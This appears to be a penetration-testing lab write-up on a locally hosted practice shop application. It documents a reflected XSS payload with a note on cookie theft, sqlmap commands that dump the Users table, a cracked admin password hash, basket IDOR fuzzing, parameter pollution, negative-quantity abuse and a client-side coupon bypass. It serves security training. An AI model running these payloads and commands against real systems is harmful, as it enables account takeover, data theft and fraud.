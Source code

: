 # Purchasing
#### Reflected XSS via Search Input

Tested an image-based XSS payload in the search bar:

- **Payload:** `<img src=x onerror=alert('zaki')>`
    
**Vulnerable URL:**  
`http://ubuntu-server:8002/#/search?q=<img src=x onerror=alert('zaki')>`

This payload triggered a JavaScript `alert`, confirming a **Reflected XSS** vulnerability.

However, we extended testing beyond `alert()` and attempted to access `document.cookie`. Since the app uses a cookie-based token for session authentication (and this token also serves as the bearer token), this exposes the user to **session hijacking** if the cookie is not flagged as `HttpOnly`.

**Impact:**  
An attacker can steal the token and log in as the victim.

![Pasted image 20250505191032](attachments/Pasted%20image%2020250505191032.png)

![Pasted image 20250505192114](attachments/Pasted%20image%2020250505192114.png) 

---
#### SQL Injection via Backend Search API

The backend API differs from the front-end route and may be vulnerable to SQLi:

- **Endpoint:** `http://ubuntu-server:8002/rest/products/search?q=`
    
Initial tests:

- `'` → no response
    
- `"` → returned data (suggests weak query sanitization)
    

**Steps:**

1. Captured the request in ZAP.
    
2. Saved it as `rest-search.raw`.
    
3. Ran `sqlmap`:
    

```bash
sqlmap -r rest-search.raw --level 3
```

**Results:**

- SQLi confirmed.

	![Pasted image 20250505193345](attachments/Pasted%20image%2020250505193345.png)

Dumped all tables:
    
```bash
sqlmap -r rest-search.raw --level 3 --dbms sqlite --dump --tables
```

![Pasted image 20250505194330](attachments/Pasted%20image%2020250505194330.png)

To target `Users` table:

```bash
sqlmap -r rest-search.raw --level 3 --dbms sqlite --dump -T Users
```

![Pasted image 20250505195107](attachments/Pasted%20image%2020250505195107.png)

When prompted, saved the password hashes and used [CrackStation](https://crackstation.net/) for cracking:

```plaintext
0192023a7bbd73250516f069df18b500 → admin123
```

> This finding qualifies as a **Cryptographic Failure** (OWASP).

![Pasted image 20250505201650](attachments/Pasted%20image%2020250505201650.png)

![Pasted image 20250505201815](attachments/Pasted%20image%2020250505201815.png) 

To dump specific columns:

```bash
sqlmap -r rest-search.raw --level 3 --dbms sqlite -T Users -C id,role,email,password --dump
```

**Recommendation:** Test cracked credentials across other accounts in case of password reuse.

---
#### Basket Manipulation

Login, add an item to your basket, and observe:

```http
/rest/basket/{id}
```

Use **ZAP's fuzzer** to iterate through basket IDs and look for other users' baskets.

![Pasted image 20250505203747](attachments/Pasted%20image%2020250505203747.png)

---
#### Parameter Pollution

Attempting to change another user’s basket ID directly:

- Using just their ID: returns `401 Unauthorized`.
    
- Using **both** your ID and the victim's ID:  **Successful manipulation** — item added to victim's basket.
    
**Vulnerability:** Parameter pollution allows unauthorized actions on other users’ data.

![Pasted image 20250505204646](attachments/Pasted%20image%2020250505204646.png) 

![Pasted image 20250505204711](attachments/Pasted%20image%2020250505204711.png) 

---

#### Business Logic Abuse – Negative Quantity

In ZAP proxy, modified the quantity of a product in the basket to a negative number.

**Result:**

- The cart total was negative.
    
- User wallet balance increased.
    
- Items could be “purchased” for free.
    

**Classification:** Business logic flaw; abuse of functionality.

![Pasted image 20250505205319](attachments/Pasted%20image%2020250505205319.png)

![Pasted image 20250505210914](attachments/Pasted%20image%2020250505210914.png)

![Pasted image 20250505211042](attachments/Pasted%20image%2020250505211042.png)

---
#### Client-Side Coupon Validation Bypass

Although the developer placed coupon codes in JavaScript, the validation relied on a specific timestamp range.

**Issue:**
- The coupon is only accepted within a valid `validOn` timestamp.
- Validation is done entirely on the client side.

**Bypass:**
- In the browser DevTools console, modified `Date.now()` to return the expected timestamp (the one defined in the coupon).
- This tricked the app into applying the coupon despite being outside the valid range.
    

**Note:** The vulnerability lies in the fact that the logic is client-side and modifiable by the user.
